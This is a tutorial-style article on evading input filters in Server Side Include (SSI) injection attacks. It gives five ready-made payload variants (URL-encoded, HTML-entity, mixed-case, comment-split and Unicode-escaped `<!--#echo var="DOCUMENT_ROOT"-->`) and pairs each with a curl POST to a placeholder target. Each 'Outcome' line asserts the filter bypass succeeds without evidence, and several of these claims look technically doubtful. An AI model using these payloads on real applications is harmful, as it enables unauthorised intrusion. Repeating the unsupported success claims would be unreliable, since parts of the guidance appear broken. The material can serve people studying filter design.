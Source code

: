 ```yaml
---
title: Evasion Techniques in SSI Injection
description: Explore advanced evasion techniques for bypassing filters in SSI injection
  attacks, including encoding, syntax manipulation, and Unicode tactics.
keywords:
- SSI injection
- evasion techniques
- filter bypass
- encoding strategies
- syntax manipulation
- Unicode evasion
- web application security
- input validation
- security filters
---
```


# Evasion Techniques

## Context

This article explores various evasion techniques used to bypass input filters and security defenses during Server Side Include (SSI) injection attacks. A solid understanding of server-side includes, web server architecture, input sanitization, and the general techniques of SSI injection is assumed. The focus here is on practical evasion methods that permit the execution of SSI directives despite security controls.

## Theory

### Filter Evasion Principles in SSI Injection

Evasion techniques manipulate attack payloads to bypass input validation mechanisms during SSI injection attacks. Filters, typically relying on specific patterns to detect malicious input, can be circumvented through strategic payload alterations. Web servers often handle input parsing and normalization in ways that present opportunities for effective evasion.

### Encoding and Obfuscation Strategies

Encoding techniques transform characters within a payload into different representations, which may slip past security filters. Attackers frequently use encodings such as URL, HTML entity, or Unicode to encode SSI directives and avoid detection. Some security checks decode inputs only once and may not recognize or handle all encoding formats, allowing cleverly encoded payloads to bypass them.

### Syntax Manipulation and Substitution

By modifying the syntax of SSI directives—altering case, adding whitespace, inserting comments, or substituting characters—attackers can evade pattern-based filters. Employing mixed-case styles, embedding HTML comments, or using extra spaces within SSI commands can disrupt filter logic, which often does not normalize such input factors before checking for threats.

## Practice

### URL Encoding Bypass for SSI Injection

- **Payload**: Utilize URL encoding to obscure SSI directives.

    ```http
    <!--%23echo%20var%3D%22DOCUMENT_ROOT%22-->
    ```

- **Command**: Send the encoded payload to a vulnerable application.

    ```bash
    curl -X POST -d 'input=<!--%23echo%20var%3D%22DOCUMENT_ROOT%22-->' http://target-app/submit
    ```

- **Outcome**: Despite input filters, the SSI directive executes because encoding bypassed pattern checks.

### HTML Entity Encoding Evasion

- **Payload**: Encode SSI directive using HTML entities to err bypass filters.

    ```html
    &lt;!--#echo var=&quot;DOCUMENT_ROOT&quot; --&gt;
    ```

- **Command**: Inject the entity-encoded payload into the target.

    ```bash
    curl -X POST -d 'input=&lt;!--#echo var=&quot;DOCUMENT_ROOT&quot; --&gt;' http://target-app/submit
    ```

- **Outcome**: The server decodes the input, processing the SSI directive, defeating input validation rules.

### Case Sensitivity and Whitespace Manipulation

- **Payload**: Employ mixed case and additional spaces to confuse filters.

    ```html
    <!--#EcHo    var="DOCUMENT_ROOT"-->
    ```

- **Command**: Submit this obfuscated SSI command to the application.

    ```bash
    curl -X POST -d 'input=<!--#EcHo    var="DOCUMENT_ROOT"-->' http://target-app/submit
    ```

- **Outcome**: Filter oversight in case and whitespace normalization results in SSI execution.

### Comment Injection within SSI Directives

- **Payload**: Insert comments within the SSI directive to evade pattern filtering.

    ```html
    <!--#echo<!-- --> var="DOCUMENT_ROOT"-->
    ```

- **Command**: Deliver the obfuscated SSI payload to the target.

    ```bash
    curl -X POST -d 'input=<!--#echo<!-- --> var="DOCUMENT_ROOT"-->' http://target-app/submit
    ```

- **Outcome**: The server processes the SSI after either stripping the injected comment or ignoring it, circumventing the filter check.

### Unicode and Character Substitution Evasion

- **Payload**: Use Unicode escape sequences to substitute for potentially blocked characters.

    ```html
    <!--#echo var=\u0022DOCUMENT_ROOT\u0022-->
    ```

- **Command**: Send the Unicode-encoded SSI payload to the application.

    ```bash
    curl -X POST -d 'input=<!--#echo var=\u0022DOCUMENT_ROOT\u0022-->' http://target-app/submit
    ```

- **Outcome**: The server's Unicode normalization enables SSI execution, effectively bypassing the character-based filtering.

## Tools

- **curl**
- **Burp Suite**
- **CyberChef** 

These tools facilitate crafting, testing, and delivering encoded and obfuscated payloads to exploit SSI vulnerabilities in web applications.